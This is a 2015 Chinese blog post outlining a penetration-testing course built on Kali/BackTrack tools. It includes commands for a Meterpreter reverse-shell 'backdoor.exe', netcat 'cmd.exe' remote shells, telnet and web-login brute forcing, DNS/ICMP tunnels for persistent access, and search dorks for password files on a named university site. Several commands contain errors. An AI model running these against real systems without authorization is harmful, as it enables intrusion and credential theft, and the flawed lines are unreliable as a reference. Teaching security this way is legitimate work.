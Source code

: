 ```yaml
---
author: wangguohao
comments: true
date: 2015-01-01 12:23:00+00:00
layout: post
slug: '%e5%ae%89%e5%85%a8%e8%af%be%e7%a8%8b%e7%9a%84%e5%a4%87%e8%af%be'
title: 安全课程的备课
wordpress_id: 575
categories:
- 计算机
tags:
- 安全
---
```


第一份工作进入尾声了，准备最后一段课程的视频的录制，课程的设计的思路是：借助一下主流的工具，来介绍一下常见的网络安全的比较感性的原理（对细微本身讲的较少）。大体课程内容设计如下：


### Linux安全测试发行版介绍：


BackTrack:(虽然现在项目已经换名字了，但是依然有很多人喜欢bt)
Probably the most widely known pen-test distro out there and one of the oldest distro still being actively developed. There is a thumb-drive and Live DVD version, plus the ability to do a full install in your hard-drive. The distribution is based on Ubuntu with custom packages that gets updated on a regular basis.

kali：
From the creators of BackTrack comes Kali Linux, the most advanced and versatile penetration testing distribution ever created. We have a whole set of amazing features lined up in our security distribution, geared at streamlining the penetration testing experience.

Backbox Linux:
Another Ubuntu based distro but uses XFCE as its window manager and relies on its own repo to constantly keep its tools updated.

Pentoo: A livecd based on Gentoo and XFCE. Also available as an overlay for existing Gentoo installations. Has the ability to crack passwords using GPGPU out of the box.

目的是介绍主要的工具集。


### 踩点技术


传统的本地dns探测工具，多数依赖于字典文件：


    dnsenum.pl -f dns_list.txt --dnserver 8.8.8.8 cisco.com -o cisco.list

    dnsmap cisco.com -w wordlist.txt -c cisco.csv


路由信息收集工具，一个传统的udp实现，一个现代一点的利用tcp实现，可以穿越防火墙。
paratrace,一种新的、隐形的 traceroute,可使用有状态的过滤器。
traceroute:传统的工具
tcptraceroute ：稍微新一点，利用tcp的工具。

搜索引擎的技巧
http://en.wikipedia.org/wiki/Google_hacking
filetype:xls site:jlxy.nju.edu.cn
密码 site:jlxy.nju.edu.cn
密码 site:jlxy.nju.edu.cn filetype:doc
site:jlxy.nju.edu.cn intext:admin

自动化，综合的信息收集平台maltego
1：domain
2：dns
3：whois information
4：network block
5：ip address
6：E-mail


### 扫描技术


发现主机


    arping -c 2 192.168.1.1

    fping -s -r 1 192.168.1.1 192.168.1.254

    hping3 -c 2 192.168.1.1


    #hping3
    hping>hping send {ip(addr=192.168.1.1)+icmp(type=8,code=0)}

    nbtscan 192.168.1.1-254


操作系统指纹识别

主动：nmap -O

被动：p0f

端口扫描
autoscan

netifera

scanrand:一个非常快速、无状态的 TCP 端口扫描器和 traceroute 工具

服务探测


    cd /pentest/enumeration/www/httprint/linux/
    httprint -h 192.168.1.1 -s singnature.txt


VPN探测

    ike-scan -M -v 192.168.1.1

    sslscan 192.168.1.1




### 漏洞发现


Cisco tools

cisco auditing tool


    ./CAT -h 192.182.1.1 -w lists/community -a lists/passwords -I


Cisco passwd scanner


    ./cisco 10.10.10 3 -t 4 -C 10


Snmp tools


    cd /pentest/enumeration/snmp/admsnmp
    ./ADMsnmp 192.168.1.1 -wordf wordlist.list


如果你知道snmp的community， 你可以使用这个工具收集信息。


    cd  /pentest/enumeration/snmp/snmpenum/
    ./snmpenum 192.168.1.1 private windows.txt


针对web的安全工具
Burp suite

Nikto


    ./nikto.pl -h 192.168.1.1 -C -p 80 T3487b -t 3 -D \V  -o webtest -F htm


W3af

这个waf的探测工具：WAFW00F


    cd /pentest/web/waffit/
    ./wafw00f http://....


介绍两个成熟的框架：openvas，nessus


### 集成化的工具包
MSF


    msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4444 X > backdoor.exe

    msfconsole
    use exploit/multi/hander
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LPORT 192.168.1.150
    set LHOST 4444


### 局域网安全


####Layer 2:
CDP(cisco discovery protocols)
mac flood

####Layer 3:
dhcp
tcp syn flood

结合一点点嗅探技术：
dsniff 包由 Dug Song 编写,已经发布几年了,是一组强大的网络审核工具。其中有一个简洁的小工具 arpspoof,可用于向 ARP 缓存注入虚假信息。该工具可以创建 Gratuitous ARP 应答,应答数据包中的源 IP 是用户打算伪装的 IP 地址,而目标 IP 则是所要嗅探的目标计算机。


### 密码破解


在线的：以破解cisco的路由器，和html表单的例子。
ncrack -U pass -v -P pass telnet://192.168.1.1
ncrack -U pass -v -P pass http://192.168.1.1
Web 表单
离线的：无线的密码破解是离线的


### 维持访问


基本都是两台主机，其中一台替另一台通过某些服务对流量进行封装中继。

Dns 隧道
Server:dns2tcpd


    ./dns2tcpd -F -d 1 -f dns2tcpd.conf


Client:


    ./dns2tcpc  -z  domain.org


配置文件：


    Domain=domain.org
    Rescoure = ssh
    Local_port = 2222
    Debug = 1


icmp 隧道
Server:

    ./ptunnel


Client:


    ./ptunnel -p tun.ser_ip -lp 2222 -da ture.ip  -dp 22


代理服务器
netcat
Windows:

    nc.exe -d -L -p 1234 -e cmd.exe

Remote:

    nc -l -p 1234

locale:

    nc -d remore port -e cmd.exe

Nc realy:（利用脚本实现），就是一种重定向，指定的数据流转发，还可以把传输的信息dump一次。


    #/bin/bash
    nc -o output.file ip_addr port

    nc -l -p 23 -e script.sh
